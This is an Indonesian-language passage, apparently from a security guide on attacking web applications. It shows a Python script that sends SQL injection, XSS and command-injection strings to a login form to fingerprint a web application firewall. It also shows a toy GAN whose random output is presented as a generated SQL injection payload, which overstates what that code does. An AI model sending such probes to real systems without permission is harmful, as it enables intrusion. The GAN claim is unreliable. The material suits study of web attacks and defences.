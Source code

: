 
## 🔎 3. Automated WAF Fingerprinting & Adaptive Exploits

Fingerprinting WAF memungkinkan penyerang mengetahui **jenis & konfigurasi WAF** sebelum melancarkan serangan.  

**Contoh Fingerprinting WAF dengan Python:**  
```python
import requests

target = "https://target.com/login"
payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Payload: {payload} - Response Code: {response.status_code} - Length: {len(response.text)}")
```

---

## 🔬 4. Neural Network-Generated Attack Payloads

Neural Network dapat digunakan untuk **menghasilkan payload eksploitasi** yang tidak ada dalam database tradisional.

**Contoh Model GAN untuk Generate Payload SQL Injection:**  
```python
import torch
import torch.nn as nn

class Generator(nn.Module):
    def __init__(self):
        super(Generator, self).__init__()
        self.model = nn.Sequential(
            nn.Linear(10, 50),
            nn.ReLU(),
            nn.Linear(50, 100),
            nn.ReLU(),
            nn.Linear(100, 10),
            nn.Tanh()
        )

    def forward(self, x):
        return self.model(x)

generator = Generator()
noise = torch.randn(10)
fake_payload = generator(noise)

print(f"Generated AI-Powered Payload: {fake_payload}")
```

---